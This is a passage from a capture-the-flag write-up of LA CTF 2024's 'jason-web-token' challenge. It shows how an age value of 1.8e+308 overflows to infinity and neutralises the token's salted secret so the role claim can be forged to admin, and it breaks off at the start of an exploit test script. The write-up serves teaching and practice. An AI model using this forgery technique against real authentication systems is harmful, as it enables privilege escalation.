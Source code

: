 In scientific notation for floating point numbers, the `e+x` means "10 to raised to the positive $x$ power".

So, in the above floating point number, it's basically means: $1.7976931348623157 * 10^{308}$

Hmm... Now what if we exceed that maximum floating point number? Like `1.8e+308`, or $1.8 * 10^{308}$

```python
>>> 1.8e+308
inf
>>> type(1.8e+308)
<class 'float'>
```

What? `inf`?

When we exceeded the maximum floating point number, **it'll just return `inf`, which means "infinity"**.

Now, **if the age is infinity, how the `salted_secret` will be calculated**?

```shell
┌[siunam♥Mercury]-(~/ctf/LA-CTF-2024/web/jason-web-token)-[2024.02.20|13:27:51(HKT)]
└> python3
[...]
>>> import hashlib
>>> import json
>>> import os
>>> import time
>>> 
>>> secret = int.from_bytes(os.urandom(128), "big")
>>> hash_ = lambda a: hashlib.sha256(a.encode()).hexdigest()
>>> 
>>> timestamp = 1708409176
>>> age = 1.8e+308
>>> salted_secret = (secret ^ timestamp) + age
>>> salted_secret
inf
```

Oh! The `salted_secret` will become `inf`!

That being said, we can forge our token `role` claim to `admin`, **because the `secret` is no longer useful**!

## Exploitation

Armed with above information, we can try to put all the pieces of the puzzle back together.

**Test script:**
```python
import hashlib
import json
import os
import time

class JasonWebToken:
    def __init__(self, userinfo):
        self.userinfo = userinfo
        # self.secret = int.from_bytes(os.urandom(128), 'big')
        # hardcode the secret
        self.secret = 9141234535239612542115732646415394834739740025058524373858457143378589177031148816534120294714141112505806096907002630659689671621116085375889852960305769858424552001372865055125407914147834757052620537572773021594229118857174315271635420782593133647009117231906050286162348069043105546850219307788889710878
        self.hash_ = lambda a: hashlib.sha256(a.encode()).hexdigest()

    def createToken(self):
```
